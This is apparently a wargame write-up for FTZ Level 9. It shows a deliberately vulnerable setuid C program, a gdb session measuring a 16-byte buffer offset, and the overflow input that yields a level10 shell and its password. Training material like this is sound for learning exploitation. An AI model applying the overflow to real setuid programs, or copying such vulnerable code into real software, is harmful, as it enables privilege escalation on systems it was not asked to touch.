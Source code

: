 # Level9

## This level's goal

- BOF(Buffer OverFlow)

***

```
[level9@ftz level9]$ cat hint

다음은 /usr/bin/bof의 소스이다.

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

main(){

  char buf2[10];
  char buf[10];

  printf("It can be overflow : ");
  fgets(buf,40,stdin);

  if ( strncmp(buf2, "go", 2) == 0 )
   {
        printf("Good Skill!\n");
        setreuid( 3010, 3010 );
        system("/bin/bash");
   }

}

이를 이용하여 level10의 권한을 얻어라.

[level9@ftz tmp]$ ls -l /usr/bin/bof
-rws--x---    1 level10  level9      12111  8¿ù 19  2014 /usr/bin/bof
```
you cannot debug bof file cuz level9 has only execute permission.

so, you need to make your another file and complie and debug
```
[level9@ftz tmp]$ cat bof.c

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

main(){

        char buf2[10];
        char buf[10];

        printf("It can be overflow : ");
        fgets(buf,40,stdin);
        
        # show the buffer memory address
        printf("&buf=0x%x, &buf2=0x%x, distance=0x000000%x / %d byte\n",buf, buf2, buf2-buf, buf2-buf);

        if ( strncmp(buf2, "go", 2) == 0 )
        {
            printf("Good Skill!\n");
            setreuid( 3010, 3010 );
            system("/bin/bash");
        }

}

[level9@ftz tmp]$ gcc -g -o bof bof.c

[level9@ftz tmp]$ ./bof
It can be overflow : AAAA
&buf=0xbffff150, &buf2=0xbffff160, distance=0x00000010 / 16 byte
```
The distance buf and buf2 is 16byte, and the dummy stack between buf and buf2 is 6byte.

So, you need to input buf(10byte) and dummy(6byte) and the key string("go") in buf2 that you can get 'bash'

I will input "AAAAAAAAAABBBBBBgo" (A:10byte+B:6byte+go)

```
[level9@ftz tmp]$ gdb bof
(gdb) disass main
0x08048493 <main+115>:  call   0x8048330 <strncmp>

(gdb) break *0x08048493
Breakpoint 1 at 0x8048493: file bof.c, line 15.

(gdb) run
Starting program: /home/level9/tmp/bof
It can be overflow : AAAAAAAAAABBBBBBgo
&buf=0xbfffe750, &buf2=0xbfffe760, distance=0x00000010 / 16 byte
Breakpoint 1, 0x08048493 in main () at bof.c:15
15              if ( strncmp(buf2, "go", 2) == 0 )

(gdb) x/s 0xbfffe750
0xbfffe750:      "AAAAAAAAAABBBBBBgo\n"

(gdb) x/s 0xbfffe760
0xbfffe760:      "go\n"

(gdb) continue
Continuing.
Good Skill!
```

```
[level9@ftz level9]$ /usr/bin/bof
It can be overflow : AAAAAAAAAABBBBBBgo
Good Skill!

[level10@ftz level9]$ my-pass
Level10 Password is "interesting to hack!".
```
